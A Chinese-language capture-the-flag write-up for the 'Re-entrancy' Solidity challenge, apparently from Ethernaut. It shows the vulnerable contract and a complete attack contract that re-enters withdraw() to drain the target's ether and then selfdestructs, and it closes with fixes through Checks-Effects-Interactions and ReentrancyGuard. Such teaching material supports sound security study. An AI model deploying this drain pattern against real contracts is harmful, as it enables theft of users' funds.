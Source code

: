 # Re-entrancy
## 題目
<img width="505" alt="截圖 2024-09-08 下午4 18 44" src="https://github.com/user-attachments/assets/1960a2c7-b6a9-4f4c-b6cd-83f156565989">

## 合約
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```


## 重入攻擊

#### 合約中的 Reentrancy 漏洞
我們仔細看 `withdraw()` 函數，攻擊流程如下：
1. **檢查條件**：確認提款者的餘額是否足夠。
2. **轉帳操作**：進行外部 `call`，將金額轉給提款者。
3. **更新餘額**：在最後才將提款者的餘額減少。

由於提款者的餘額是在資金轉出後才更新，這為 Reentrancy 攻擊提供了機會。攻擊者可以在資金轉出後但餘額尚未更新時，重入 `withdraw()` 函數，再次提取資金，形成無限循環。

#### 攻擊流程
1. **初始捐款**：攻擊者先向 Reentrance 合約捐款，將一定數量的資金存入合約中。
2. **觸發 `withdraw()`**：攻擊者呼叫 `withdraw()` 取出部分資金，進入提款流程。
3. **重入攻擊**：在收到第一次提款資金後，攻擊者的合約的 `receive()` 函數被觸發，再次呼叫 `withdraw()`，重複提取資金直到合約資金耗盡。

### hack
```solidity
pragma solidity ^0.8.0;

interface IReentrancy {
    function donate(address) external payable;
    function withdraw(uint256) external;
}

contract Hack {
    IReentrancy private immutable target;

    constructor(address _target) {
        target = IReentrancy(_target);
    }

    // NOTE: attack cannot be called inside constructor
    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}
```

### 如何預防 Reentrancy 攻擊

防止 Reentrancy 攻擊有幾個關鍵的方式：

#### 1. 使用 Checks-Effects-Interactions 模式
這是一種常見的開發模式，將外部呼叫（`Interactions`）放在狀態變數更新（`Effects`）之後進行，這樣可以確保當外部合約被呼叫時，內部狀態已經更新完畢，防止重入攻擊。

```solidity
function withdraw(uint _amount) public {
    // 先更新狀態變數
    balances[msg.sender] -= _amount;

    // 再與外部進行互動
    (bool result,) = msg.sender.call{value: _amount}("");
    require(result, "Transfer failed");
}
```

#### 2. 使用 Reentrancy Guard
可以使用 `ReentrancyGuard` 來防止函數被重入調用。這是一種設計模式，透過狀態變數來鎖定函數，確保函數只能被調用一次。

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SafeContract is ReentrancyGuard {
    function withdraw(uint _amount) public nonReentrant {
        // 使用 ReentrancyGuard 防止重入攻擊
        balances[msg.sender] -= _amount;
        (bool result,) = msg.sender.call{value: _amount}("");
        require(result, "Transfer failed");
    }
}
```
